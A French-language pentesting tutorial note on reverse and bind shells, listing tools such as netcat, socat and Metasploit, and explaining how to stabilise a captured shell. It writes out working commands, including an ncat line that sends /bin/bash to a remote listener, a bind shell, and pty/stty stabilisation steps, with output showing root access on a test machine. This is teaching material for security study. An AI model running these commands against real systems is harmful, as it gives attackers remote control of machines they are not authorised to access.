 
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**Netcat** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principale qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**Socat** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (`/bin/bash` sur linux et `cmd.exe` sur windows). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

Notre machine

```shell
user@ip:~$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```
**Mise en place du listener**.

Machine cible

```shell
root@raspberrypi:/# ncat 192.168.1.100 443 -e /bin/bash
```
**Execution du script**.

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```
**Execution de commande sur la machine cible**.

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

Machine cible

```shell
root@raspberrypi:/home/thomas# ncat -vnlp 4433 -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
**Lancement du serveur netcat**.

Notre machine

```shell
user@ip:~$ nc 192.168.1.104 4433
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```
**Connection au port**.

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell **plus beau** mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du CTRL + C.

```shell
user@ip:~$ nc 192.168.1.104 4433
whoami
root

python -c 'import pty;pty.spawn("/bin/bash")'
root@raspberrypi:/home/user#
```

#### 2- Commande de terme

Pour acceder aux **commandes de termes** comme `clear`, on doit executer la commande **`export TERM=xterm`**.

```shell
root@raspberrypi:/home/user# export TERM=xterm
export TERM=xterm
```

#### 3- Acces aux touches

Pour retirer les problèmes principaux, on va d'abord mettre notre **shell en arrière plan** en utilisant ***CTRL + Z***.
**Une fois dans notre terminal** on va executer la commande **`stty raw -echo; fg`** qui va **désactiver notre propre echo** et donc **donner accès aux touches et à l'auto-completion** puis remettre en premier plan notre shell.

```shell
root@raspberrypi:/home/user# ^Z
[1]+  Stopped                 nc 192.168.1.104 4433
user@ip:~$ stty raw -echo; fg
nc 192.168.1.104 4433

root@raspberrypi:/home/user# ^C
root@raspberrypi:/home/user#
```


### Taille du terminal

Pour **regler la taille du terminal** on va utiliser **`stty`**.

D'abord il faut **connaitre la taille de notre vrai terminal**. Pour cela il faut **ouvrir un autre terminal** et effectuer la commande **`stty -a`**.

```shell
claquetteuuuh@DESKTOP-PC1BC1G:~$ stty -a
speed 38400 baud; rows 30; columns 120; line = 0;
```

On peut ici voir les attributs **rows** et **columns**.

On va ensuite régler notre shell avec ces attributs. Pour cela on va executer dans notre reverse shell les commandes
**`stty rows <number>`** et **`stty cols <number>`**

```shell
root@raspberrypi:/home/thomas# stty rows 30
root@raspberrypi:/home/thomas# stty columns 120
root@raspberrypi:/home/thomas# jjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
```